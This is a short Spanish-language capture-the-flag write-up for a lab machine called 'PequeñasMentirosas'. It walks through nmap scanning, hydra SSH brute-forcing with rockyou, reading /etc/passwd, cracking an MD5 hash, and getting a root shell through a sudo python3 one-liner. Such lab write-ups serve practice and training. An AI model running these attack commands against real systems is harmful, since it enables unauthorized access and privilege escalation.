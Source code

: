Maquina: PequeñasMentirosas

Autor: Beafn28

Dificultad: Facil


Realizamos un ping a la máquina para verificar la comunicación.
ping 172.17.0.2 -c 1

Escaneamos con Nmap.
sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

Observamos que el puerto 80 y 22 estan abiertos.

Accedemos a la página web alojada en esta máquina utilizando un navegador y vemos un posible usuario.

Usamos hydra.

hydra -l "a" -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 64 -I

Encontramos la contrasena para el usuario y enctramos por ssh.

ssh a@172.17.0.2
secret

Si vemos los usuarios que existen, encontramos spencer.

cat /etc/passwd | grep "sh$"

Hacemos una busqueda de archivos .txt de la siguiente manera find / -name *.txt 2>/dev/null

ls | xargs cat

cat hash_spencer.txt

Encontramos con un hash en MD5, usamos CrackStation y nos da la contrasena: password1

Cambiamos al usuario spencer

su spencer
password1

sudo -l

Con este usuario veremos que podemos ejecutar el binario de /usr/bin/python3 como cualquier usuario sin propocionar contraseña.

sudo /usr/bin/python3 -c "import os; os.system('/bin/bash')"

whoami
